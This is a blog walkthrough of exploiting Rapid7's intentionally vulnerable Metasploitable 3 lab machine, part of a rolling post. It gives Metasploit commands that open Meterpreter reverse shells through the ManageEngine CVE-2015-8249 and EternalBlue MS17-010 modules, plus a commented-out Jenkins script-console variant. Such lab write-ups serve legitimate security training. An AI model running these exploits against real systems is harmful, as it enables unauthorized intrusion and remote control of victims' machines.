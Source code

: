 ```yaml
---
layout: single
title:  "Metasploitable 3 Walkthrough"
date:   2020-07-25 08:49:23 +0100
categories: windows
excerpt: An overview of exploiting the vulnerabilities in Metasploitable 3 
---
```

![metasploitable](/images/metasploitable3/msf3-1.png)

# Metasploitable 3 Exploitation Guide

## Introduction

Hello all, in this post I will be going over the ways to exploit code and gain a shell on Rapid7's [Metasploitable 3](https://github.com/rapid7/metasploitable3) machine. Each vulnerability will be split into it's own section and explained with links for reference, I will also go over ways to escalate privileges from LOCAL SERVICE shells to SYSTEM, by combining multiple exploits. Each week I will add more, so consider it a rolling post where I will update it with each new vulnerability I find and then exploit. The link to each section will as usual, be in the table of contents at the side of the page. If you have any questions feel free to reach out to me on my Twitter, or my Discord, both linked at the side. Without further ado, let's get started.

## Links and Resources 
These are just some useful links and resources if you get stuck exploiting the machine.
 - [The projects GitHub Page](https://github.com/rapid7/metasploitable3)
 - [A guide to installing Metasploitable3](https://www.youtube.com/watch?v=errn34YrEjM)
 - [Meterpreter Basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
 - [Attacking Metasploitable 3 - Metasploit Minute - Mubix](https://www.youtube.com/watch?v=4HOGfSQEYuE)
 - [List of Metasploitable 3 Vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
 - [Details of how Metasploitable 3 is configured](https://github.com/rapid7/metasploitable3/wiki/Configuration)
 - [Metasploit Download](https://github.com/rapid7/metasploit-framework)
 - [A Beginners Guide to Metasploit - HackerSploit](https://www.youtube.com/watch?v=8lR27r8Y_ik&list=PLBf0hzazHTGN31ZPTzBbk70bohTYT7HSm)



## NMAP Scan of Metasploitable 3

![nmap](/images/metasploitable3/nmap.png)

## Metasploit Prerequisites

To make our lives easier I will launch metasploit with the `msfdb run` command to launch msf and start the database for credential storage, I will also use the `setg` command to globally set the RHOST and LHOST to the IP of Metasploitable3 and our local IP respectively.

![msf-1](/images/metasploitable3/msf-1.png)

<!--
## Exploiting the Jenkins Vulnerability 

The first vulnerability we will be exploiting is to do with a poor Jenkins implementation, where the script editor is not locked behind a password, so it allows for unauthenticated remote code execution as LOCAL SERVICE, the module we will be using is, [exploit/multi/http/jenkins_script_console](https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console), all we need to do is load up the module and run `exploit` as we have already set the RHOST and LHOST with `setg`. We also need to make sure that we are using a 64 bit payload as Metasploitable 3 is a 64 bit machine. We can set the correct payload with, `set payload windows/x64/meterpreter/reverse_tcp`.

{% highlight powershell linenos %}
use exploit/multi/http/jenkins_script_console
set payload windows/x64/meterpreter/reverse_tcp
exploit
{% endhighlight %}

-->

## Exploiting Manage Engine - CVE-2015-8249

The first vulnerability we will be exploiting is to do with an outdated Manage Engine Desktop Central implementation, there is a CVE with a metasploit module and this allows for unauthenticated remote code execution as LOCAL SERVICE, the module we will be using is, [exploit/windows/http/manageengine_connectionid_write](https://www.rapid7.com/db/modules/exploit/windows/http/manageengine_connectionid_write), all we need to do is load up the module and run `exploit` as we have already set the RHOST and LHOST with `setg`. We also need to make sure that we are using a 64 bit payload as Metasploitable 3 is a 64 bit machine. We can set the correct payload with, `set payload windows/x64/meterpreter/reverse_tcp`.

{% highlight powershell linenos %}
use exploit/windows/http/manageengine_connectionid_write
set payload windows/x64/meterpreter/reverse_tcp
exploit
{% endhighlight %}

![bingo](/images/metasploitable3/msf-2.png)

Bingo, we got a shell as LOCAL SERVICE. 

Here is a link to an in-depth article exploiting this vulnerability - [Here](https://redteamtutorials.com/2018/10/24/metasploitable-3-exploiting-manage-engine-desktop-central-9/)


## Exploiting EternalBlue, MS17-010

The next vulnerability we will exploit is [MS17-010](https://en.wikipedia.org/wiki/EternalBlue), EternalBlue. To exploit this vulnerability, it is quite simple, all we need to do is load the module in metasploit and then run the exploit.

![](/images/metasploitable3/msf-1.png)

{% highlight powershell  %}
use exploit/windows/smb/ms17_010_eternalblue
set LHOST 10.10.11.2
set RHOST 10.10.10.11
exploit
{% endhighlight %}

![](/images/metasploitable3/eternalblue.png)

Bingo, we got a shell as system.



